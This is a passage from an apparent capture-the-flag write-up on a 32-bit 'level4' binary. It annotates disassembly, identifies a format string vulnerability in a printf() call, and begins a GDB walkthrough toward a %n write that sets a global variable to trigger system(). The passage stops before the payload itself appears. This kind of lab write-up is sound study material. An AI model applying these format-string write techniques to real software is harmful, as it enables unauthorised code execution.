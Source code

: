 <+6>: Retrieve the first argument passed (user input).  
<+9>: Pass it as the sole argument to `printf()`.  
<+12>: Call `printf()`, vulnerable to format string injection.  

#### Function Epilogue

```asm
0x08048455 <+17>:    leave
0x08048456 <+18>:    ret
```

<+17>: Restore stack.  
<+18>: Return to caller.  

This is the vulnerable point. The user-controlled string is passed directly to `printf()` with no format specifier. This opens the door to `%n`-style writes that will allow us to overwrite the global variable checked in `n()`.

## GDB Runtime Analysis

This section documents the dynamic analysis of the `level4` binary using GDB. The goal is to understand the binary's runtime behavior, inspect memory and register states, and perform the exploit **entirely via GDB**.

### Step 1: Inspect the Global Variable `m`

From disassembly, the variable `m` is stored at:

```asm
0x0804848d <+54>:    mov    0x8049810,%eax
```

Let's confirm its current value:

```gdb
(gdb) x/wx 0x08049810
0x8049810 <m>:  0x00000000
```

As expected, the initial value is `0`. We will aim to write `0x1025544` into this location to trigger the call to `system()`.

---

### Step 2: Confirm Stack Layout and Buffer Location

Set a breakpoint right before the call to `p()` in `n()` (offset +49):

```gdb
(gdb) break *0x08048488
(gdb) run
```

Input a marker string when prompted:

```bash
AAAA
```
